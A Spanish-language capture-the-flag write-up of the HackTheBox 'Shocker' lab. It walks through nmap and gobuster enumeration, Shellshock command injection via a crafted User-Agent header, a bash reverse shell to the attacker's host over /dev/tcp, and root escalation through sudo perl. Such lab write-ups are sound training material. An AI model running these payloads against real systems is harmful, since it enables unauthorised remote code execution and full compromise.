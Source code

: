 ```yaml
---
layout: post
title: HTB Shocker
date: '2023-12-21 18:31:59 -0500'
categories: [HTB, Easy]
tags: [Web, ShellShock, Linux, Sudoers, Perl, Fuzzing] 
image:
  path: /shocker/preview.png
  alt: Shocker 
---
```


## Resumen
![logo](/shocker/logo.png){: .right w="200" h="200" }
**Shocker** es una máquina **fácil** en la que es necesario **fuzzear** un sitio **web** para descubrir que existe una carpeta un tanto llamativa llamada **cgi-bin**. Esta carpeta está relacionada con un ataque llamado **Shellshock**, que permite al atacante ejecutar comandos dentro de la máquina gracias a un **user-agent** especial. Sin embargo, para que esto pueda suceder, debe existir un archivo dentro de la carpeta con una extensión específica, y milagrosamente existe en este caso. Después de realizar la enumeración, solo hace falta llevar a cabo el ataque para obtener una **shell reversa**. Una vez dentro de la máquina, solo es necesario revisar los permisos a nivel de **sudoers**, y se ve que se cuenta con la posibilidad de ejecutar un **binario** interesante como **root**. Esta máquina fue divertida y fácil de hacer, perfecta para practicar el **ataque**.

## Reconocimiento 
Para empezar, se realiza un **ping** para verificar la conectividad con la máquina.

```bash
ping 10.10.10.56 -c 1

64 bytes from 10.10.10.56: icmp_seq=1 ttl=63 time=162 ms

--- 10.10.10.56 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
```
{: .nolineno}

### Escaneo de Puerto

Se puede realizar un escaneo con **nmap** para ver qué puertos se encuentran abiertos dentro de la máquina:

```bash
nmap -p- --min-rate 2000 10.10.10.56 -Pn -oG ports

Warning: 10.10.10.56 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.56
Host is up (0.16s latency).
Not shown: 63916 closed tcp ports (conn-refused), 1617 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```
{: .nolineno}


Con la información obtenida, se puede realizar un escaneo mucho más profundo para obtener las tecnologías y versiones que se están utilizando dentro del servidor:


```bash
nmap -p80,2222 -sVC --min-rate 2000 10.10.10.56 -oN versions -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-21 19:34 EST
Nmap scan report for 10.10.10.56
Host is up (0.20s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Enumeración 

Al revisar dentro de la web, no se puede encontrar nada interesante.

![web](/shocker/web.png)

Pero al listar directorios con ayuda de **GoBuster**, se puede ver lo siguiente.

```bash
gobuster dir -u http://10.10.10.56/ -w /usr/share/seclists/Discovery/Web-Content/big.txt  -t 100
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/cgi-bin/             (Status: 403) [Size: 294]
/server-status        (Status: 403) [Size: 299]
```
{: .nolineno}

Dentro de los directorios se ve uno llamado **cgi-bin**, por lo que podría presentarse la posibilidad de que el sistema sea vulnerable a un ataque de **Shellshock**.

> Una vulnerabilidad presente en algunos servidores Web, es el conocido ShellShock, que es una vulnerabilidad en el Shell Bash de los sistemas operativos Linux/Unix, el cual permite ejecutar comandos por atacantes de manera remota, por lo que se le conoce también con el nombre de Bashdoor.
{: .prompt-info}


Se puede revisar si existe algún archivo con la extensión válida para realizar el ataque dentro de la carpeta con el siguiente comando:
```bash
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x pl,sh,bash,cgi
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              sh,bash,cgi,pl
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 118]
```
{: .nolineno}


## Explotación

Como se ve que existe el archivo **user.sh**, se puede realizar el ataque sobre esa ruta.

> Con esta vulnerabilidad, es una buena idea usar rutas absolutas para que los comandos sean ejecutados de forma correcta. Esto se puede descubrir con ayuda del comando 'which', que se encuentra en dos rutas posibles: /usr/bin/which o /bin/which.
{: .prompt-tip}

```bash
curl -H "User-Agent: () { :; }; echo; echo; /usr/bin/which whoami " http://10.10.10.56/cgi-bin/user.sh

/usr/bin/whoami
```
{: .nolineno}


```bash
curl -H "User-Agent: () { :; }; echo; echo; /usr/bin/whoami " http://10.10.10.56/cgi-bin/user.sh

shelly
```
{: .nolineno}

Para obtener una **shell reversa**, es necesario ponerse a la escucha con **nc** y ejecutar el siguiente **payload**.

```bash
nc -lvp 4444
```
{: .nolineno}


```bash
curl -s http://10.10.10.56/cgi-bin/user.sh -H "User-Agent: () { :; }; echo;echo; /bin/bash -c '/bin/bash -i>& /dev/tcp/10.10.14.17/4444 0>&1' "
```
{: .nolineno}



```bash
 nc -lvp  4444
listening on [any] 4444 ...
10.10.10.56: inverse host lookup failed: Unknown host
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.56] 51062
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ ls
ls
user.sh
shelly@Shocker:/usr/lib/cgi-bin$ 
```
{: .nolineno}

Con eso, ya se puede buscar la bandera de usuario dentro del sistema.

## Escalada de Privilegios

Para escalar privilegios, solo hace falta revisar los **privilegios** a nivel de **sudoers** dentro del equipo, y se puede ver que el usuario puede ejecutar el comando **perl** como **root**.


```bash
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
{: .nolineno}


Por lo que se puede hacer uso de [GTFOBins](https://gtfobins.github.io/) para buscar alguna manera de escalar privilegios. Y al investigar sobre alguna forma de abusar de **perl** se encuentra lo siguiente:


![gtfo](/shocker/gtfo.png)


```bash
sudo perl -e 'exec "/bin/sh";'
```
{: .nolineno}


Y al ejecutar el comando se gana privilegios como el usuario **root**.


```bash
shelly@Shocker:/usr/lib/cgi-bin$  sudo /usr/bin/perl -e 'exec "/bin/sh";'
whoami
root
ls /root
root.txt
```
{: .nolineno}












